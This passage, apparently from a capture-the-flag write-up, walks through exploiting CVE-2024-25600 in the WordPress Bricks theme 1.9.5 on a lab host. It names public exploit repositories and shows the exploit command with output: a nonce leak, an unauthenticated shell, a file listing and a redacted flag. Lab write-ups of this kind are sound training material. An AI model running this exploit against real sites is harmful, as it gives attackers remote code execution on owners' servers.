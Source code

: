 The scan indicated that the WordPress version was 6.5 and the theme in use was "Bricks" (v1.9.5). No plugins or config backups were detected. Since the challenge name referenced "bricks", I searched for vulnerabilities related to the bricks theme.

#### Vulnerability Search

Searching: `Wordpress bricks theme 1.9.5 version exploit` led me to a [Github repository](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT) with an exploit for CVE-2024-25600, and included version 1.9.5 but after executing the exploit i got:

```bash
    python3 CVE-2024-25600.py -u https://bricks.thm/
    ~/Downloads/CVE-2024-25600.py:20: SyntaxWarning: invalid escape sequence '\ '
      / / |  / / /   | \ /  _ / // /      | \ / __/ __//  /  \
    Traceback (most recent call last):
      File "~/Downloads/CVE-2024-25600.py", line 13, in <module>
        from alive_progress import alive_bar
    ModuleNotFoundError: No module named 'alive_progress'
```

Errors.... So i had to find another repository that contained the necessary pip packages to run the exploit. After some searching, I found what i was looking for: A [GitHub repository](https://github.com/Tornad0007/CVE-2024-25600-Bricks-Builder-plugin-for-WordPress) that contained the exploit.py and the requirements.txt. So i cloned the repository and after running the exploit:

```bash
    python3 exploit.py -u https://bricks.thm/
    [*] Nonce found: 36f00ad481
    [+] https://bricks.thm/ is vulnerable to CVE-2024-25600, apache
    [!] Shell is ready, please type your commands UwU
    ls
    650c844110baced87e1606453b93f22a.txt
    index.php
    kod
    license.txt
    phpmyadmin
    readme.html
    wp-activate.php
    wp-admin
    wp-blog-header.php
    wp-comments-post.php
    wp-config-sample.php
    wp-config.php
    wp-content
    wp-cron.php
    wp-includes
    wp-links-opml.php
    wp-load.php
    wp-login.php
    wp-mail.php
    wp-settings.php
    wp-signup.php
    wp-trackback.php
    xmlrpc.php 

    cat 650c844110baced87e1606453b93f22a.txt
    THM{redacted}
```
